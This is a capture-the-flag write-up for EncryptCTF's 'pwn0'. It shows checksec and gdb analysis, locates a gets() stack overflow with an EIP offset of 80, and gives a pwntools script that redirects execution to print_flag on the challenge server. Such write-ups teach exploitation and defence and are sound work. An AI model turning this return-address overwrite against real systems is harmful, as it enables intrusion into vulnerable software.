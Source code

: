 ## EncryptCTF: pwn0
##### *tl;dr: buffer overflow to change instruction pointer*
#### Easiest challenge worth 25 points, we always do reconnaisance of the security measures in the binary with ```checksec```:
```
$ checksec pwn0
[*] '/home/venom/Desktop/encryptCTF_writeup/pwn0_SOLVED/pwn0'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
#### We see that NX is enabled, which means that this isn't a challenge where we can execute shellcode, but we do see that no canary is found on the stack so we could still smash it. Let's have a test run with the binary:
```
$ ./pwn0
How's the josh?
he's good. needs people to visit his yt channel tho
Your josh is low!
Bye!
```
#### It first prints out the message 'How's the josh?' and proceeds to wait for input. After we place our input, it prints out some things again then exits. We open up gdb to list and disassemble the functions:
```
$ gdb ./pwn0
  gdb-peda$ info functions
    [...]
    0x080484dd  print_flag
    0x080484f1  main
    [...]
```
#### The interesting functions that we see are the main and print_flag functions, so we disassemble these:
```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x080484f1 <+0>:	push   ebp
   0x080484f2 <+1>:	mov    ebp,esp
   0x080484f4 <+3>:	and    esp,0xfffffff0
   0x080484f7 <+6>:	sub    esp,0x60
   0x080484fa <+9>:	mov    eax,ds:0x80498a0
   0x080484ff <+14>:	mov    DWORD PTR [esp+0xc],0x0
   0x08048507 <+22>:	mov    DWORD PTR [esp+0x8],0x2
   0x0804850f <+30>:	mov    DWORD PTR [esp+0x4],0x0
   0x08048517 <+38>:	mov    DWORD PTR [esp],eax
   0x0804851a <+41>:	call   0x80483d0 <setvbuf@plt>
   0x0804851f <+46>:	mov    DWORD PTR [esp],0x804861d
   0x08048526 <+53>:	call   0x8048390 <puts@plt>
   0x0804852b <+58>:	lea    eax,[esp+0x1c]
   0x0804852f <+62>:	mov    DWORD PTR [esp],eax
   0x08048532 <+65>:	call   0x8048370 <gets@plt>
   0x08048537 <+70>:	mov    DWORD PTR [esp+0x8],0x4
   0x0804853f <+78>:	mov    DWORD PTR [esp+0x4],0x804862d
   0x08048547 <+86>:	lea    eax,[esp+0x5c]
   0x0804854b <+90>:	mov    DWORD PTR [esp],eax
   0x0804854e <+93>:	call   0x8048380 <memcmp@plt>
   0x08048553 <+98>:	test   eax,eax
   0x08048555 <+100>:	jne    0x804856a <main+121>
   0x08048557 <+102>:	mov    DWORD PTR [esp],0x8048632
   0x0804855e <+109>:	call   0x8048390 <puts@plt>
   0x08048563 <+114>:	call   0x80484dd <print_flag>
   0x08048568 <+119>:	jmp    0x8048576 <main+133>
   0x0804856a <+121>:	mov    DWORD PTR [esp],0x8048648
   0x08048571 <+128>:	call   0x8048390 <puts@plt>
   0x08048576 <+133>:	mov    eax,0x0
   0x0804857b <+138>:	leave  
   0x0804857c <+139>:	ret    
End of assembler dump.
```
#### We see here some puts calls which prints out text that we saw when we run the binary. What is interesting for us is the gets call which we know to be very vulnerable since it doesn't check for out of bounds input. To know what offset we can begin overwriting the buffer, we do a pattern create, input it to the binary, and find which offset we can smash the stack:
```
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r
[...]
EIP: 0x414a4141 ('AAJA')
Stopped reason: SIGSEGV
0x414a4141 in ?? ()
gdb-peda$ pattern offset AAJA
AJAA found at offset: 80
```
#### The offset at which we can overwrite the EIP register is at offset 80. Adding four more additional bytes will make us jump to another location in memory, which is what we want to do because if we don't, we just hit exit and segfaults. What we can do is jump to the ```print_flag``` function's address, so that the next instruction will execute that function. We know that the address for print_flag is ```0x080484dd``` and we append that to our offset to control the program flow. We can now then create a short script for our exploit:
##### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = '104.154.106.182 '
PORT = 1234
p = remote(HOST,PORT)
print(p.recv())

#: Exploit code
offset = 'A' * 80
print_flag = p32(0x80484dd)
exploit = offset + print_flag

#: Send payload
p.sendline(exploit)
print(p.recv())
print(p.recv())
```
#### We run it, and get our flag! 
```
$ python exploit.py
[+] Opening connection to 104.154.106.182  on port 1234: Done
How's the josh?

Your josh is low!
Bye!

encryptCTF{L3t5_R4!53_7h3_J05H}

[*] Closed connection to 104.154.106.182  port 1234
```



